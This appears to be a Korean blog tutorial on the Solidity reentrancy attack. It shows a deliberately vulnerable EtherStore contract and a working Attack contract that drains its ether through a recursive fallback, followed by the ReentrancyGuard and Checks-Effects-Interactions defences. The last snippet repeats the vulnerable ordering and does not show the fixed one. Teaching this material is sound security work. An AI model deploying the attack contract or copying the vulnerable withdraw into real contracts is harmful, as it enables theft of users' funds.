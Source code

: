 ```yaml
---
emoji: 🧢
title: Reentrancy Attack (재진입 공격)?
date: '2021-12-20 18:38:00'
author: 한성원
tags: EVM Reentrancy ReentrancyAttack
categories: 취약점분석
---
```



# 👋 Reentrancy Attack (재진입 공격)


## 들어가기전
### Fallback 함수?
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다. 
0.6이전 버전에서는 fallback이 ether는 것과 존재하지 않는 함수의 대비책으로 사용되었지만 0.6 이후 버전부터 fallback은 fallback과 receive로 나누어졌다. 0.6부터는 fallback을 사용하지 않고 receive를 통해 이더를 받을 수 있다.
- - -
## Reentrancy Attack(재진입 공격)이란?
Reentrancy Attack은 contract A가 하나의 user로써 contract B 에게 transaction을 보낸다. 이때 contract A가 요청에 대한 제어권을 가지게된다. 그렇게 되면 contract A가 보낸 첫번째 요청이 끝나기 전에 다른 함수를 계속해서 호출 할 수 있게된다. 이는 재진입을 ether를 빼올 수 있게 된다.
- - -

## Example Code
예시를 하나 보도록 하자! 
첫번째 contract A는 ether를 보관하는 곳
두번째 contract B는 A를 공격하는 contract이다.

그대로 remix를 사용해 테스트해보면 이해가 빠를 것이다!
```solidity

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
}
```

```solidity 
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
-  <span style="color:grey">출처: https://solidity-by-example.org/hacks/re-entrancy/</span>  

__EtherStore contract__ 를 보면 deposit과 withdraw 함수가 존재한다. 
- deposit 함수를 원하는 만큼의 ether를 보관할 수 있게 해주는 함수이다.
- withdraw 함수는 자신이 보관한 ether를 가져올 수 있는 함수이다. 

__Attack contract__ 에는 attack과 fallback함수가 존재한다.
- attack 함수는 ether 하나를 deposit하고 이후 바로 withdraw 한다
- fallback 함수에는 ether가 1이상 보관되어 있다면 withdraw함수를 다시 부른다.

함수가 호출되는 순서는 다음과 같다
```
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- ...(이후 반복)
```

1. 공격자가 attack 함수를 통해 EtherStore에 1 ether를 deposit한다
2. 이후 EtherStore에 1 ether를 찾겠다고 withdraw 함수를 호출한다.
3. withdraw 함수가 호출되면 attack 함수의 fallback function이 호출된다.(이더를 가져오기 때문에!)
4. 이후 fallback function 안에 있는 withdraw함수를 재호출 하게된다.
5. 이후 3-4 과정이 반복되며 재진입 공격이 성공한다.

이처럼 재진입 공격을 통해 부당한 이득을 취할 수 있게된다.

- - -
## How to prevent?
그렇다면 reentrency attack은 어떻게 예방 할 수 있을까?

Reentrency attack은 예방하는 방법은 총 2가지로 나눌 수 있다. 
1. openzeppline의 ReentrancyGuard contract의 noReentrant modifier 사용하기
    -  openzeppline Library는 secure smart contract 개발을 위한 Library이다.
    - noReentrant modifier의 코드는 이러하다. 
    ```solidity
        modifier nonReentrant() {
        // On the first call to nonReentrant, _notEntered will be true
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");

        // Any calls to nonReentrant after this point will fail
        _status = _ENTERED;

        _;

        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = _NOT_ENTERED;
    }
    ```
    함수 뒤에 noReentrant를 붙혀주는 것으로 쉬게 사용 가능하다.

2. Check-Effects-Interaction 패턴
  -  함수 내에서 interaction이 일어나기 전 check와 effect를 다 적용하는 패턴이다. 위 예제의 withdraw 함수 같은 경우 effect 부분이 interaction 부분 다음에 있는 것을 볼 수 있다. 
  - Check-Effects-Interaction 패턴을 적용하게 되면 interaction하기 전에 먼저 balance에 대한 데이터가 바뀜으로 reentrency하게 되어도 require문에 걸리게 된다.
  

  ```solidity
  function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); // interaction 부분!!
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0; // effect!!
    }
  ```
- - -

## 마치며
"블록체인은 해킹 당하지 않는다!" 라는 것은 맞는 말이지만 블록체인 위에서 만들어지는 smart contract는 그렇지 않다. 코드를 조금이라도 잘못 짜게되면 Reentrency attack과 많은 취약점들이 생길 수 있다. 그럼으로 앞으로 취약점들에 대해 공부해 smart contract를 만들때 유의하도록 하자!!

```toc

```
